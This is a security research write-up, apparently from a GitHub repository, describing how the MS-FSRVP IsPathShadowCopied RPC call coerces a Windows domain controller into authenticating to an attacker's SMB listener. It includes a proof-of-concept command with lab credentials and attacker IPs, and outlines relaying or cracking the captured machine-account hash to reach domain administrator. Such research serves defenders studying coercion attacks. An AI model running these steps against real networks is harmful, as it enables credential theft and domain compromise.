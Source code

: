 # MS-FSRVP - Remote call to IsPathShadowCopied (opnum 9)

## Summary

 - **Protocol**: [[MS-FSRVP]: File Server Remote VSS Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b)

 - **Protocol UUID**: a8e0653c-2744-4389-a61d-7373df8b2292

 - **Protocol version**: 1.0

 - **Function name**: [`IsPathShadowCopied`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/a42d8439-0ef8-4c88-905d-dc781a69753e)

 - **Function operation number**: `9`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine.

Then we need to connect to the remote SMB pipe `\PIPE\FssagentRpc` and bind to (uuid `a8e0653c-2744-4389-a61d-7373df8b2292`, version `1.0`) in order to perform calls to RPC functions of the `MS-FSRVP` protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\FssagentRpc`. This pipe is connected to the protocol [[MS-FSRVP]: File Server Remote VSS Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b) and allows to call RPC functions of this protocol. It will then call the remote [`IsPathShadowCopied`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/a42d8439-0ef8-4c88-905d-dc781a69753e) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
IsPathShadowCopied('\\192.168.2.51\NETLOGON\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\NETLOGON` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
DWORD IsPathShadowCopied(
    [in] handle_t hBinding,
    [in] [string] LPWSTR ShareName,
    [out] BOOL* ShadowCopyPresent,
    [out] long* ShadowCopyCompatibility
);
```

 - **hBinding**:  An RPC binding handle (as defined in [C706]).

 - **ShareName**: The full path of the share in UNC format.

 - **ShadowCopyPresent**: This value is set to TRUE if the ShareName specified has a shadow copy; otherwise set to FALSE.

 - **ShadowCopyCompatibility**: This value indicates whether certain I/O operations on the file store containing the shadow copy are disabled. This MUST be zero or a combination of the values as specified in section 2.2.2.3.

## References

 - Documentation of protocol [MS-FSRVP]: File Server Remote VSS Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b

 - Documentation of function `IsPathShadowCopied`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/a42d8439-0ef8-4c88-905d-dc781a69753e